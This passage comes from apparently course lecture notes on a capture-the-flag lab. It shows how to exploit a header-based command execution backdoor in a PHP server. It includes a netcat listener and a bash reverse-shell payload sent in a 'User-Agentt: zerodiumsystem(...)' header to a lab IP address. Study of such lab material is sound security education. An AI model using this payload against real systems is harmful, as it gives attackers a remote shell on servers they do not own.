 		then again we'll get output <br><img src="../../notes-pics/03-Module/15_lecture/15_lecture-6-M3.jpg" alt="" width="500"/>
    	- which means remotely we can run command on the linux server of that IP address. <br>
			so whatever commands we're running , that command interacting with shell
		- means that linux server (on which this PHP application running) - we're able to interact with that system
		- so this is small vulnerability - which is HEADER based
- STEP 8 : now our main goal to get the shell or flag , so for this , <br>
	we have a extension [HackTools – Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) or <br>
	u can google i.e "how to get the one liner reverse shell command of bash"
	- STEP 8.1 : in that firefox extension , select bash icon & paste the IP address , <br>
		u'll get the bash command , copy the command <br><img src="../../notes-pics/03-Module/15_lecture/15_lecture-7-M3.jpg" alt="" width="500"/>
	- STEP 8.2 : in terminal , run the command of netcat i.e `nc -lvnp 443` , <br>
		Q : why we're running netcat on port 443 ✔️<br>
		Ans : cuz once that shell command we run - then after execution of that command , shell will get ON
	- STEP 8.3 : paste that one liner command <br>
		i.e `User-Agentt : zerodiumsystem('bash -c 'exec bash -1 &>/dev/tcp/10.17.41.167/443 <&1'');` <br>
		like this <br><img src="../../notes-pics/03-Module/15_lecture/15_lecture-8-M3.jpg" alt="" width="500"/>